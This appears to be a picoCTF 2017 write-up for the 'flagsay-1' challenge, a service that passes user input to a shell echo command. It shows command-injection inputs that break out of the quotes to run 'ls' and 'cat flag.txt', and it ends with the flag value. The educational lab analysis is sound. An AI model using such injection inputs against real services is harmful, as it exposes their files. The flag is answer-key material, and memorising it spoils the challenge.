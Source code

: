 ## flagsay-1 - 80

### Description

I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](./flagsay-1)! [Source](./flagsay-1.c). Connect on shell2017.picoctf.com:29903.

### Hint

  - System will run exactly what the program gives it

### Write up

The program reads user input, store it to `flag` and prints it by

    /bin/echo "<flag>"

For example,

    $ nc localhost 29903
    asdf
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //asdf                               /     
                //                                   /      
               //                                   /       
              //                                   /        
             //                                   /         
            //                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     //

Then, what will happen if we give `"` included input?

    $ nc localhost 29903
    asdf"
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //asdf /
    sh: 4: //: Permission denied
    sh: 5: //: Permission denied
    sh: 6: //: Permission denied
    sh: 7: //: Permission denied
    sh: 8: //: Permission denied
    sh: 9: //___________________________________/: not found
    sh: 10: //: Permission denied
    sh: 11: //: Permission denied
    sh: 12: //: Permission denied
    sh: 13: //: Permission denied
    sh: 14: //: Permission denied
    sh: 15: //: Permission denied
    sh: 17: Syntax error: Unterminated quoted string

It gives an error, so the command injection is possible.

    $ nc localhost 29903
    asdf"; ls * "
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //asdf
    ls: cannot access                       /     
                //                                   /      
               //                                   /       
              //                                   /        
             //                                   /         
            //                                   /          
           //___________________________________/           
          //                                                
         //                                                 
        //                                                  
       //                                                   
      //                                                    
     //                                                     
    : No such file or directory
    flagsay-1
    flagsay-1_no_aslr
    flag.txt
    xinetd_wrapper.sh

By using ls command, it is found that there is a flag.txt file.

    $ nc localhost 29903
    asdf"; cat flag.txt "
                   _                                        
                  //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
                 //asdf
    0464df9449a05803b955208c50827420
    cat:               /     
    ...

By using cat command, flag can be retrieved.


> 0464df9449a05803b955208c50827420
